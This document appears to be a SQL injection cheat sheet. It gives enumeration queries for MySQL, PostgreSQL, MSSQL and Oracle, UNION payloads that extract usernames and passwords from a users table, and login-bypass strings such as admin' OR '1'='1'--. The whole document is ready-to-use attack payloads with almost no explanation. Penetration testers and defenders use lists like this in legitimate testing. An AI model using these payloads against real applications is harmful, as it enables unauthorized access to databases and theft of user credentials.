 ## SQL Injection Exploitation

### Database Enumeration

```sql
-- MySQL
SELECT @@version
SELECT user()
SELECT database()
SELECT table_name FROM information_schema.tables
SELECT column_name FROM information_schema.columns WHERE table_name='users'

-- PostgreSQL
SELECT version()
SELECT current_user
SELECT current_database()
SELECT tablename FROM pg_tables WHERE schemaname='public'

-- MSSQL
SELECT @@version
SELECT user_name()
SELECT db_name()
SELECT name FROM sys.tables
SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('users')

-- Oracle
SELECT * FROM v$version
SELECT user FROM dual
SELECT table_name FROM all_tables
SELECT column_name FROM all_tab_columns WHERE table_name='USERS'
```

### Data Extraction

```sql
-- Extract usernames and passwords
' UNION SELECT username, password FROM users--

-- Concatenate multiple columns
' UNION SELECT CONCAT(username, ':', password) FROM users--

-- Extract one row at a time
' UNION SELECT username FROM users LIMIT 1 OFFSET 0--
' UNION SELECT username FROM users LIMIT 1 OFFSET 1--
```

### Authentication Bypass

```sql
-- Basic bypass
admin' OR '1'='1'--
admin' OR '1'='1'#
admin' OR '1'='1'/*

-- Always true conditions
' OR 1=1--
' OR 'x'='x
') OR ('x'='x

-- Comment out password check
admin'--
admin'#
admin'/*
```
